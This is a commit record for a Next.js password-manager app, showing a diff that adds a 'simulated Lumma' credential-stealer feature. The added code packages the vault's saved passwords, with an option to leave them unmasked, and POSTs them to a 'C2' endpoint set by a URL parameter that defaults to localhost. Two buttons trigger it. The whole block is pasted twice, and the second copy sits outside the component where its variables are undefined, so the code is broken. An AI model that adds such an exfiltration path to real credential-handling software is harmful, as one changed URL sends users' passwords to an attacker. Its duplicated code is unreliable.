

Before and after one commit to loxy1235/password-manager, a Next.js app: page / in a window 1280 px wide. Both pictures are taken after typing "Sample123" into the empty fields and a click on the button "Unlock Vault". Shown: the top 418 px of the page, without its empty margins (0-640 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.js

```diff
--- a/pages/index.js
+++ b/pages/index.js
@@ -268,6 +268,74 @@ export default function PasswordManager() {
       </div>
     );
   }
+// --- Simulate Lumma-like collection & exfiltration (safe) ---
+// Build a "simulated" exfil payload from the app's state (passwords).
+// IMPORTANT: this function never reads browser secrets outside your app state.
+// It masks values by default so no real credential values are leaked.
+const buildSimulatedLummaPayload = (passwordsArray, options = { mask: true }) => {
+  // passwordsArray should be your in-memory `passwords` state from React
+  const payload = {
+    simulation: true,
+    attacker_label: 'simulated-lumma-demo',
+    timestamp: new Date().toISOString(),
+    victim_id: 'demo-victim-1', // changeable for experiments
+    collected: passwordsArray.map((p) => {
+      const maskedPassword = options.mask
+        ? maskString(p.password, 4) // show last 4 chars only
+        : p.password; // ONLY use unmasked in fully controlled lab with dummy data
+      return {
+        site: p.website,
+        username: p.username,
+        password: maskedPassword,
+        notes: p.notes || '',
+        createdAt: p.createdAt,
+        updatedAt: p.updatedAt
+      };
+    })
+  };
+  return payload;
+};
+
+// Utility to mask a string but keep last N characters readable for demo
+const maskString = (s, last = 4) => {
+  if (!s) return '';
+  if (s.length <= last) return '*'.repeat(s.length);
+  const maskedPart = '*'.repeat(Math.max(0, s.length - last));
+  return maskedPart + s.slice(-last);
+};
+
+// Perform a simulated "Lumma exfil" to your local simulated C2 server.
+// c2Url should be http(s)://localhost:PORT/c2/upload or internal test host.
+const simulateLummaExfil = async (c2Url = 'http://localhost:4000/c2/upload', options = { mask: true }) => {
+  // Confirm operator wants to perform the simulation
+  const ok = window.confirm(
+    'Run simulated Lumma exfiltration to a local, safe C2 (localhost). This will NOT send real credentials outside this host. Continue?'
+  );
+  if (!ok) return { ok: false, reason: 'user_cancelled' };
+
+  // Build payload using only app state (passwords)
+  const payload = buildSimulatedLummaPayload(passwords, options);
+
+  try {
+    const res = await fetch(c2Url, {
+      method: 'POST',
+      headers: { 'Content-Type': 'application/json' },
+      body: JSON.stringify(payload)
+    });
+    if (!res.ok) {
+      const text = await res.text();
+      console.error('C2 rejected simulation:', text);
+      return { ok: false, reason: 'c2_error', detail: text };
+    }
+    const json = await res.json();
+    alert('Simulation sent to simulated C2 (check server dashboard).');
+    return { ok: true, response: json };
+  } catch (err) {
+    console.error('Simulation failed', err);
+    alert('Failed to reach simulated C2 (is the server running on localhost:4000?).');
+    return { ok: false, reason: 'network_error', detail: err.message };
+  }
+};
 
   return (
     <div className="min-h-screen bg-gray-50">
@@ -466,8 +534,88 @@ export default function PasswordManager() {
               </div>
             ))
           )}
+<button onClick={() => simulateLummaExfil('http://localhost:4000/c2/upload', { mask: true })}
+  className="px-3 py-2 bg-red-100 text-red-800 rounded-lg hover:bg-red-200 transition">
+  Simulate Lumma Exfil (masked)
+</button>
+
+<button onClick={() => simulateLummaExfil('http://localhost:4000/c2/upload', { mask: false })}
+  className="px-3 py-2 bg-red-200 text-white rounded-lg hover:bg-red-300 transition">
+  Simulate Lumma Exfil (unmasked — local lab only)
+</button>
+
         </div>
       </main>
     </div>
   );
 }
+
+
+// --- Simulate Lumma-like collection & exfiltration (safe) ---
+// Build a "simulated" exfil payload from the app's state (passwords).
+// IMPORTANT: this function never reads browser secrets outside your app state.
+// It masks values by default so no real credential values are leaked.
+const buildSimulatedLummaPayload = (passwordsArray, options = { mask: true }) => {
+  // passwordsArray should be your in-memory `passwords` state from React
+  const payload = {
+    simulation: true,
+    attacker_label: 'simulated-lumma-demo',
+    timestamp: new Date().toISOString(),
+    victim_id: 'demo-victim-1', // changeable for experiments
+    collected: passwordsArray.map((p) => {
+      const maskedPassword = options.mask
+        ? maskString(p.password, 4) // show last 4 chars only
+        : p.password; // ONLY use unmasked in fully controlled lab with dummy data
+      return {
+        site: p.website,
+        username: p.username,
+        password: maskedPassword,
+        notes: p.notes || '',
+        createdAt: p.createdAt,
+        updatedAt: p.updatedAt
+      };
+    })
+  };
+  return payload;
+};
+
+// Utility to mask a string but keep last N characters readable for demo
+const maskString = (s, last = 4) => {
+  if (!s) return '';
+  if (s.length <= last) return '*'.repeat(s.length);
+  const maskedPart = '*'.repeat(Math.max(0, s.length - last));
+  return maskedPart + s.slice(-last);
+};
+
+// Perform a simulated "Lumma exfil" to your local simulated C2 server.
+// c2Url should be http(s)://localhost:PORT/c2/upload or internal test host.
+const simulateLummaExfil = async (c2Url = 'http://localhost:4000/c2/upload', options = { mask: true }) => {
+  // Confirm operator wants to perform the simulation
+  const ok = window.confirm(
+    'Run simulated Lumma exfiltration to a local, safe C2 (localhost). This will NOT send real credentials outside this host. Continue?'
+  );
+  if (!ok) return { ok: false, reason: 'user_cancelled' };
+
+  // Build payload using only app state (passwords)
+  const payload = buildSimulatedLummaPayload(passwords, options);
+
+  try {
+    const res = await fetch(c2Url, {
+      method: 'POST',
+      headers: { 'Content-Type': 'application/json' },
+      body: JSON.stringify(payload)
+    });
+    if (!res.ok) {
+      const text = await res.text();
+      console.error('C2 rejected simulation:', text);
+      return { ok: false, reason: 'c2_error', detail: text };
+    }
+    const json = await res.json();
+    alert('Simulation sent to simulated C2 (check server dashboard).');
+    return { ok: true, response: json };
+  } catch (err) {
+    console.error('Simulation failed', err);
+    alert('Failed to reach simulated C2 (is the server running on localhost:4000?).');
+    return { ok: false, reason: 'network_error', detail: err.message };
+  }
+};
```
